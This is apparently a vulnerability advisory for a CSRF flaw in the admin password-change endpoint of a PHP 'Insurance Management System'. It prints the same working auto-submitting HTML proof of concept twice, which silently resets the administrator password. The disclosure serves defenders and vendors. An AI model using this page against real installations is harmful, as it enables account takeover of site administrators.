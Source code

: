 # Summary
There is a CSRF vulnerablity in `Insurance Management System` (https://www.sourcecodester.com/php/16995/insurance-management-system-php-mysql.html).
`/Script/admin/core/update_password`

This vulnerability allows attackers to use carefully constructed HTML pages to trick administrators into clicking and then modify the administrator's password.


# Details
In url `/Script/admin/core/update_password`, use burpsuite to intercept the traffic packet:
![image-20241019103858584](https://github.com/user-attachments/assets/3afa147b-d1ac-47d1-8d3f-9de7d53d9ff2)

It is easy to find that no protection for CSRF.

So we can use this PoC.html:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://e-insurance:82/Script/admin/core/update_password.php" method="POST">
      <input type="hidden" name="cpassword" value="12345678" />
      <input type="hidden" name="npassword" value="123qweQWE" />
      <input type="hidden" name="submit" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Our initial password is 12345678. bp found that there is no CSRF protection at the password change point, so PoC.html can be generated to induce the administrator to click and change the password.

You can see that after clicking, the administrator password is changed from 12345678 to 123qweQWE.

![E-ins-CSRF-1.gif](https://github.com/N0zoM1z0/Vuln-Search/blob/main/E-ins-CSRF-1.gif)


# PoC
PoC.html:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://e-insurance:82/Script/admin/core/update_password.php" method="POST">
      <input type="hidden" name="cpassword" value="12345678" />
      <input type="hidden" name="npassword" value="123qweQWE" />
      <input type="hidden" name="submit" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![E-ins-CSRF-1.gif](https://github.com/N0zoM1z0/Vuln-Search/blob/main/E-ins-CSRF-1.gif)

